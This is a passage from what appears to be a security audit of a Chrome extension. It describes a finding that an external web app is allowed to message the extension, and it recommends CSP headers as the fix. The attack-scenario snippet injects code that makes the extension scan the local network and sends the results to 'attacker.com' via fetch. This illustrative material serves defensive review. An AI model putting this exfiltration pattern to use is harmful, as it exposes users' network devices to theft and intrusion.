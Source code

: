 **Impact**: Minimal in practice (MD5 used only for auth protocol, protected by TLS)

---

### ⚠️ MEDIUM #10: External Web App in externally_connectable (PENDING)
**Status**: ⚠️ **NOT FIXED**
**Priority**: P1 (Short-term)
**Full Guide**: See `MEDIUM_10_FIX_GUIDE.md`

**Issue**:
```json
// manifest.json:13-19
"externally_connectable": {
  "matches": [
    "http://localhost:5173/*",
    "http://localhost:3000/*",
    "https://anava-ai.web.app/*"  // ⚠️ External website
  ]
}
```

**Security Risk**:
- If `anava-ai.web.app` is compromised (XSS, account takeover), attacker can:
  - Control Chrome extension
  - Access local proxy server
  - Scan user's network
  - Deploy malicious ACAP files

**Attack Scenario**:
```javascript
// Malicious code injected into anava-ai.web.app
chrome.runtime.sendMessage(EXTENSION_ID, {
  command: 'scan_network',
  payload: { subnet: '192.168.1.0/24', credentials: {...} }
}, (response) => {
  // Exfiltrate discovered cameras
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(response)
  });
});
```

**Recommended Solutions** (in priority order):

**1. ✅ Implement CSP Headers NOW (10 minutes, no breaking changes)**:
```json
// firebase.json (in web app repo)
{
  "hosting": {
    "headers": [{
      "source": "**",
      "headers": [{
        "key": "Content-Security-Policy",
        "value": "default-src 'self'; script-src 'self' 'unsafe-inline' https://apis.google.com; connect-src 'self' https://*.googleapis.com http://127.0.0.1:9876; img-src 'self' data: https:; style-src 'self' 'unsafe-inline'; frame-ancestors 'none';"
      }]
    }]
  }
}
```

